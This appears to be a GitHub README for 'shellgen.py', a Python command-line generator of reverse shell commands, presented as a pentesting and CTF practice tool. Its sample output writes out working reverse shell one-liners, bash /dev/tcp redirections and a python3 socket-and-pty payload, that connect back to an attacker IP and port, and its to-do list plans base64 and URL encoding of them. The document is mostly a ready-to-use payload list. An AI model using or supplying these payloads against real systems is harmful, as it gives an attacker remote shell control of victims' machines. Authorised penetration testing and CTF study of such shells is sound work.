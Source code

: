 # Shellgen.py 

## The idea for this project is for some practice python, as well as to make a useful tool for pentesting / CTF's

## The tool is used to generate various types of reverse shell commands from the CLI.

## The usage is very simple

    usage: shellgen.py [-h] [-p <attacker port>] [-m method to use] <attacker ip>
    
    Command line reverse shell generator
    
    positional arguments:
      <attacker ip>       Attacker ip address to receive the connection back from victim machine
    
    optional arguments:
      -h, --help          show this help message and exit
      -p <attacker port>  Attacker port to listen on. Default = 1337
      -m method to use    A comma seperated list of reverse shell methods. Default is bash,python3,nc
 

## Samples 
#### basic usage uses the three default methods, bash python3, and nc and default port l337

    
    python3 shellgen.py 127.0.0.1
    
    ['bash', 'python3', 'nc']
    
    bash: 
      bash -i >& /dev/tcp/127.0.0.1/1337 0>&1 
      0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; sh <&196 >&196 2>&196 
      /bin/bash -l > /dev/tcp/127.0.0.1/1337 0<&1 2>&1
    
    python3: 
      export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

#### specifying a method and port
    
    python3 shellgen.py 127.0.0.1 -m bash -p 9001

    ['bash']

    bash: 
      bash -i >& /dev/tcp/127.0.0.1/9001 0>&1 
      0<&196;exec 196<>/dev/tcp/127.0.0.1/9001; sh <&196 >&196 2>&196 
      /bin/bash -l > /dev/tcp/127.0.0.1/9001 0<&1 2>&1
                                                           


## To do
- Add more methods for rev shells
- add more functionality like base64 or url encoding
- add option to save to file
